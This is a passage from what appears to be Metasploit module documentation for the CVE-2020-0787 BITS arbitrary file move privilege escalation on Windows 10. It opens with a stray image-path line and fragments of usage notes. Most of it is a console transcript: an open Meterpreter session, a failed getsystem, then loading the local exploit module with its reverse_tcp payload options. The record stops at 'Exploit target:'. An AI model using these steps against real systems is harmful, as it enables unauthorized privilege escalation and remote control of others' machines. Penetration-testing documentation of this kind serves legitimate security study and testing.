   ```set payload windows/<payload>``` if the target is an x86 machine.
  to add some additional delay if needed to ensure the BITS job has successfully completed
  prior to attempting to conduct the LPE.

## Scenarios

### Windows 10 v1909 x64 - Build 18363.418
```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.22.128:4444
[*] Sending stage (201283 bytes) to 172.26.22.128
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.26.22.128:4444) at 2020-06-10 12:00:00 -0500

meterpreter > getuid
Server username: DESKTOP-NRCNIDN\normal
meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
